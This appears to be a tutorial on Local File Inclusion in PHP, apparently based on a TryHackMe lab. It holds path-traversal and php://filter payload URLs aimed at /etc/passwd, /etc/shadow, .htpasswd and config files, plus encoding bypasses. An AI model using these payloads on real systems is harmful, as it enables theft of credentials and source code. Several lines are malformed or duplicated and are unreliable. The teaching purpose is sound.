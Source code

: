 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

`http://www.example_target_website.com/download.php?file=document.html`

`http://www.example_target_website.com/download.php?file=../../../../etc/passwd`

`https://example-vulnerable-website.com/?module=contact.php`

`https://example-vulnerable-website.com/?module=/etc/passwd`

`https://example-vulnerable-website.com/?module=uploads/image123.gif`

`https://example-vulnerable-website.com/?helpfile=login.txt`

`https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd`

`https://example-vulnerable-website.com/?download=brochure.pdf`

`https://example-vulnerable-website.com/?download=../include/connection.php`

## LFI

### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

    `include
    require
    include_once 
    require_once `

The following is an example of PHP code that is vulnerable to LFI.

`<?PHP 
	include($_GET["file"]);
?>`   

### The PHP code above uses a GET request via the URL parameter file to include the file on the page. The request can be made by sending the following HTTP request: http://example.thm.labs/index.php?file=welcome.txt to load the content of the welcome.txt file that exists in the same directory

`/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdlin'

`http://example.thm.labs/page.php?file=/etc/passwd 
http://example.thm.labs/page.php?file=../../../../../../etc/passwd
http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00
http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 
http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd`

### The PHP filter wrapper is used in LFI to read the actual PHP page content.
### we can use the PHP filter to display the content of PHP files in other encoding formats such as `base64` or `ROT13`.

`http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd`

### We can read the index.php file using a PHP filter; we get errors because the web server tries to execute the PHP code. To avoid this, we can use a PHP filter while base64 or ROT13 encoding the output as follows:

`http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd 
http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd'

### eg. `echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==`
        `echo "QW9DMyBpcyBmdW4hCg==" | base64 --decode AoC3 is fun!`

### Now we can include our base64 data into the vulnerable page as follows,
    `Now we can include our base64 data into the vulnerable page as follows,`

### we provide a vulnerable web application that logs users' requests into a log file to which the webserver user has access. Once we log into the web application, we can visit the log page at 
`https://LAB_WEB_URL.p.thmlabs.com/logs.php.`            

